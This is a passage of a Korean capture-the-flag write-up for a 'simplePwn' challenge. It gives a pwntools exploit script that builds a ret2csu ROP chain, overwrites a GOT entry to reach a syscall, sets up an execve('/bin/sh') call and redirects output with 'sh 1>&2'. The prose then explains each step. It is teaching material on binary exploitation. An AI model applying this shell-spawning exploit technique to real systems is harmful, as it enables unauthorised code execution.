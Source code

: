```python
payload += p64(0) + p64(0) + p64(0x6020b0 - 8)
payload += p64(bss)
payload += csu(0, sleep_got, 1, read_got, 1)
payload += csu(0, bss, 0x3b, read_got)
payload += csu(bss, 0, 0, sleep_got)
ss(payload)
ss('\x3e')

payload2 = ''
payload2 += '/bin/sh\x00'
payload2 += 'A'*(0x3b-len(payload2))
ss(payload2)
sleep(0.1)
p.sendline("sh 1>&2")

p.interactive()
```
csu 함수의 1, 2, 3번째 인자는 함수의 인자(rdi, rsi, rdx)를 의미하고, 4번째 인자는 참조해서 사용할 함수의 주소를 의미한다. 즉, read(0, sleep_got, 1); read(0, bss, 0x3b); sleep(bss, 0, 0);의 순서로 실행된다고 보면 된다.

여기서 굳이 "/bin/sh"만 입력하고 끝나는 것이 아니라, 0x3B만큼 꽉 채워서 입력을 마치는 이유는 read 함수의 반환 값(읽기 성공한 바이트수)이 rax 레지스터에 담기기 때문이고, 우리는 syscall(sleep_got)로 익스를 할 것이기 때문에, rax를 0x3b로 맞춰서 execve syscall을 호출할 것이기 때문이다. (x86-64 linux 기준)

![쉘을 땄는데 아무것도 안 뜬다!](0215-SFCTF-simplePwn-writeup/img4.png)

익스플로잇 코드의 맨 아래에 p.sendline("sh 1>&2")가 있는 이유는 바로 이 때문이다. 쉘을 실행시켜도, 원래 프로세스가 close(1) 되어 있기 때문에, 입력한 것이 쉘에서 실행은 되지만, 결국 아무런 출력도 가져올 수 없다!

이때, 사용되는 것이 1>&2인데, 이는 stdout(1) stream을 stderr(2) stream으로 리다이렉트하여 사용한다는 뜻이다.  
원래는 2>&1 처럼, 에러 메시지를 출력해서 보려고 활용했던 적이 있는 것 같은데, 더 자세한 정보는 스택오버플로우를 참조하면 좋을 것 같다.

어쨌든, "sh 1>&2"로 stdout을 stderr로 돌려서 쉘을 새로 열고나면, 출력을 확인할 수 있게 된다.

![예에에에](0215-SFCTF-simplePwn-writeup/img5.png)

